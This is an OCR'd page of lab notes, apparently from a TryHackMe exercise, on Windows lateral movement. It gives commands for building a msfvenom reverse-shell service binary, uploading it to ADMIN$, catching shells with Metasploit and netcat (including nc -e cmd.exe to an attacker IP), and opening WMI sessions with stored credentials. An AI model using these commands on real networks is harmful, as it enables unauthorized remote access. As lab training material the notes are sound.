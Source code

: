 `schtasks /s <target> /TN "<task name>" /DELETE /F` - Delete the scheduled task.

##### Let's Get to Work

`msfvenom -p /windows/shell/reverse_tcp -f exe-service LHOST=<ip address> LPORT=<port> -o <output file name>` - Create a reverse shell in the service format.

`smbclient -c 'put <file name>' -U <username> -W ZA '//<domain>/admin$/' <password>` - Use smbclient to upload the payload to the ADMIN$ share of the target machine.

Now run `msfconsole` and than `use exploit/multi/handler` or run this:

`msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST <ip address>; set LPORT <port>;exploit"`

`runas /netonly /user:<domain>\<username> "<nc64.exe file location> -e cmd.exe <attacker ip> <port>"` - Use Runas to spawn a second reverse shell, since we can't specify credentials as part of the sc command, and spawning a CMD with Runas directly trough SSH, we will not have access to the new command prompt, remember to type your password correctly.

`nc -lvp <port>` - Receive the connection.

`sc.exe \\<domain> create <service name> binPath= "%windir%\<payload name>" start= auto` - Create a new service.

`sc.exe \\thmiis.za.tryhackme.com start THMservice-3249` - Start the new service, you should now get a connection.

## Moving Laterally Using WMI

Windows Management Instrumentation (WMI) is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices, it allows administrators to perform standard management tasks.
##### Connecting to WMI From Powershell

First create a PSCredential object:

```powershell
$username = '<username>';
$password = '<password>';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
```

We can use 1 of the following protocols to establish WMI session:

- DCOM: RPC over IP, uses port 135/TCP and ports 49152-65535/TCP as with sc.exe.
- Wsman: Connecting with WinRM, uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

`$Opt = New-CimSessionOption -Protocol DCOM` - Configure the connection options for the WMI session.
`$Session = New-Cimsession -ComputerName <target> -Credential $credential -SessionOption $Opt -ErrorAction Stop` - Establish a session against a remote host.

##### Remote Processes Creation Using WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
        